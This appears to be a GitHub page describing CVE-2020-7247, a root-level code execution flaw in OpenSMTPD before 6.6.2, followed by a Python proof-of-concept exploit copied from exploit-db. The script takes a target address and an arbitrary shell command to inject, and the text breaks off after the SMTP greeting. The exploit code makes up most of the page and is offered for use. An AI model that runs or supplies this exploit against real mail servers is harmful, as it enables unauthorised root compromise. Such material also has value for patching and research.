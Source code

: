 ###### LPE and RCE in OpenSMTPD (CVE-2020-7247)

Due to a default in the way shell metacharacters are filtered, a vulnerability
arise in `OpenBSD Simple Mail Transfer Protocol Daemon (OpenSMTPD) < 6.6.2`.
`OpenSMTPD` was initially developed for OpenBSD but is currently used by
others distros : FreeBSD, Debian, Ubuntu, Fedora, RHEL, etc.

The vulnerability permit the execution of code as root:
  - either locally if `OpenSMTPD` listens on the loopback interface and only
  accepts mail from localhost (default configuration)
  - or both locally and remotely, if `OpenSMTPD` listens on all interfaces and
  accepts external mail

More information about the vulnerability specifics:
`https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt`.

The following Proof of Concept exploit code can be used to exploit the
vulnerability:

```
# Source : https://www.exploit-db.com/exploits/47984

# Exploit Title: OpenSMTPD 6.6.2 - Remote Code Execution
# Date: 2020-01-29
# Exploit Author: 1F98D
# Original Author: Qualys Security Advisory
# Vendor Homepage: https://www.opensmtpd.org/
# Software Link: https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1
# Version: OpenSMTPD < 6.6.2
# Tested on: Debian 9.11 (x64)
# CVE: CVE-2020-7247
# References:
# https://www.openwall.com/lists/oss-security/2020/01/28/3
#
# OpenSMTPD after commit a8e222352f and before version 6.6.2 does not adequately
# escape dangerous characters from user-controlled input. An attacker
# can exploit this to execute arbitrary shell commands on the target.
#
#!/usr/local/bin/python3

from socket import *
import sys

if len(sys.argv) != 4:
    print('Usage {} <target ip> <target port> <command>'.format(sys.argv[0]))
    print("E.g. {} 127.0.0.1 25 'touch /tmp/x'".format(sys.argv[0]))
    sys.exit(1)

ADDR = sys.argv[1]
PORT = int(sys.argv[2])
CMD = sys.argv[3]

s = socket(AF_INET, SOCK_STREAM)
s.connect((ADDR, PORT))

res = s.recv(1024)
if 'OpenSMTPD' not in str(res):
    print('[!] No OpenSMTPD detected')
    print('[!] Received {}'.format(str(res)))
    print('[!] Exiting...')
    sys.exit(1)

print('[*] OpenSMTPD detected')
s.send(b'HELO x\r\n')
res = s.recv(1024)
if '250' not in str(res):
```